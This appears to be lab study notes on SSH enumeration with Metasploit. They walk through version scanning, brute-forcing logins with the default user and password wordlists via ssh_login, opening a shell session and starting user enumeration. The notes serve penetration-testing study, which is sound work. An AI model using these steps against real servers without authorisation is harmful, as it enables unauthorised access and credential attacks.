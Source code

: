 - SSH is a remote administration protocol that offers encryption and is the successor to Telnet.
- It is typically used for remote access to servers and systems.
- SSH uses TCP port 22 by default, however, like other services, it can be configured to use any other open TCP port.
- We can utilize auxiliary modules to enumerate the version of SSH running on the target as well as perform brute-force attacks to identify passwords that can consequently provide us remote access to a target.

## Demo: SSH Enumeration

`serivce postgresql start && msfconsole`

msf6:`workspace -a SSH_ENUM`

msf6:`setg rhosts [targetIP]`

msf6:`search type:auxiliary name:ssh`

msf6:`use auxiliary/scanner/ssh/ssh_version`

msf6:`run`

We enumerated the version and OS etc.

msf6:`search type:auxiliary name:ssh`

If the target has password authentication, we use the ssh_login module. If it has public/key authentication, we use the login_pubkey module.

msf6:`use auxiliary/scanner/ssh/ssh_login`

msf6:`set user_file /usr/share/metasploit-framework/data/wordlists/common_users.txt`

msf6:`set pass_file /usr/share/metasploit-framework/data/wordlists/common_passwords.txt`

msf6:`run`

We've got some credentials.

The module created a session for us :

msf6:`sessions`

msf6:`sessions 1`

`/bin/bash -i`

bash:`ls`

bash:`whoami`

bash:`e`

bash: `exit`

msf6:`sessions`: No active sessions anymore

msf6:`search type:auxiliary name:ssh`

msf6:`auxiliary/scanner/ssh/ssh_enumusers`

msf6:`show options`
